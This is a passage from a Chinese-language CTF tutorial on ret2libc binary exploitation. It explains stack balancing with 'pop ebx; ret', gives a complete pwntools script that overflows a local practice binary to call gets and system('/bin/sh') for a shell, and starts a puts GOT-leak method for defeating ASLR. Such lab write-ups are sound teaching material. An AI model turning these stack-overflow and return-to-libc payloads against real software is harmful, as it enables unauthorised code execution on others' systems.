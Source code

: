 在这里，新构建的`gets`的返回地址是`pop_ebx`，主要目的是为了栈帧平衡

> `pop ebx; ret`
>
> `pop ebx`将栈顶数据取出存放至 ebx，esp+4
>
> `ret`将栈顶数据取出存放至 eip，esp+4
>
> 这样 esp 就指向了我们的`system_plt`，对应的，`0xdeadbeef`作为 system 的返回地址，随便填

### EXP2

```python
from pwn import *

sh = process("./ret2libc2")
elf = ELF("./ret2libc2")

system_plt = elf.plt["system"]
buf_addr = 0x804a080
get_plt = elf.plt["gets"]

sh.recvuntil(b"you think ?")
payload = b'A'*(0x6c+0x04) + p32(get_plt) + p32(system_plt) + p32(buf_addr) + p32(buf_addr)
sh.sendline(payload)
sh.sendline("/bin/sh")
sh.interactive()
```

在这里，我们直接将`system_plt`作为`gets`的返回地址。

此时要注意的是，由于没有平衡栈帧，第一个`p32(buf_addr)`其实进行了一手复用，它既作为`gets`的参数，又作为`system`的返回地址。

## ret2libc3

对于 pwn 来说，整明白了这个应该才算刚刚入门:(

没有 system，没有 binsh，靠延迟绑定泄露已经执行过函数的真实地址算出偏移与基地址搞到 system 和 binsh 的地址

在这里我们泄露`puts`的地址好了

![](https://oss.nova.gal/img/image-20211214151738631.png)

首先搞到`puts`的 plt 和 got 表地址

```python
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['_start']
```

覆盖`main`的返回地址到`puts`，参数为`puts_got`，返回到`main`

> 我们返回到 main 时最好返回到`_start`，若返回到`main`的话，溢出的偏移会**-8bytes**
>
> > 程序入口`_start` -> `_libc_start_main` -> `main`
